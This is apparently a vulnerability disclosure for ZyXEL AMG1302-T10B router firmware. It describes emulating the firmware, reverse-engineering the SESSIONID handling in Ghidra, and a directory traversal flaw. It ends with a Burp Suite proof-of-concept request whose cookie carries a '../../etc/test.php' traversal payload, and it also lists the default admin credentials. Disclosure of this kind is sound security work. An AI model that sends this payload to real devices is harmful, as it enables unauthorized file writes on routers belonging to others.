 ### description: 
A directory traversal vulnerability was discovered in the ZyXEL AMG1302-T10B firmware version 2.00(AAJC.16)C0. The vulnerability is present in the FUN_0040fffc function, which is responsible for processing the SESSIONID parameter. This issue allows an attacker to manipulate the file path, potentially leading to unauthorized file creation or access outside the intended directory structure.
### Firmware
**brand**: zyxel 

**product**: AMG1302-T10B

**version**: 2.00(AAJC.16)C0

The firmware can be downloaded from this [website]([Zyxel CPE Devices [Firmware] - Advanced Downloads Firmwares and other resources – Zyxel Support Campus EMEA](https://support.zyxel.eu/hc/en-us/articles/4403361365778-Zyxel-CPE-Devices-Firmware-Advanced-Downloads-Firmwares-and-other-resources#h_01J58MYBXYH3897PEM4KWN7ZBW)) and using FirmAE to simulate the router environment.   The command is
```shell
sudo ./run.sh -r zyxel ../FIRMWARE/2.00(AAJC.16)C0.bin
```
The default username is 'admin', password is '1234'.
The result of the simulation is as follows: 
![img/web.png]
### analyze
Using ghidra, we found that there may be a directory traversal vulnerability in the line 47 of the function FUN_0040fffc

![img/analyze1.png]
We discovered that the variable `local_120` is concatenated from the string constant `"/var/tmp/"` and the variable `uVar5`. We then checked whether the value of `uVar5` is controllable. By analyzing the data flow of `uVar5`, we found that it ultimately originates from `puVar1`.
![img/analyze2.png]
Through analysis of the function `FUN_0040f704` using Ghidra, we determined that the function's purpose is to parse and reassemble formatted key-value pair strings, returning a dynamically allocated array (`local_3c`). Each element of the array points to a structure containing a key (Key) and a value (Value). Combining this with the previous findings, we can infer that the code in function `FUN_0040fffc` is intended to retrieve the value of the `"SESSIONID"` field from the request and create a file. However, there is no validation of the input string, which poses a risk of a directory traversal vulnerability.

The details of the function as follows:

* **Address**: 00410db0   
* **Function**: FUN_0040fffc 
* **Parameter**: SESSIONID
### poc
Burp Suite change the packet as follows
```burpsuite
GET /cgi-bin/pages/maintenance/userAccount/userAccount.html HTTP/1.1

Host: 192.168.1.1

User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/113.0

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8

Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2

Accept-Encoding: gzip, deflate

Connection: close

Referer: http://192.168.1.1/cgi-bin/main.html

Cookie: SESSIONID=../../etc/test.php

Upgrade-Insecure-Requests: 1

```
The result of the POC is as follows. You can create the file `test.php` in any location outside of `/var/tmp/`.
![/1/img/attack.png]
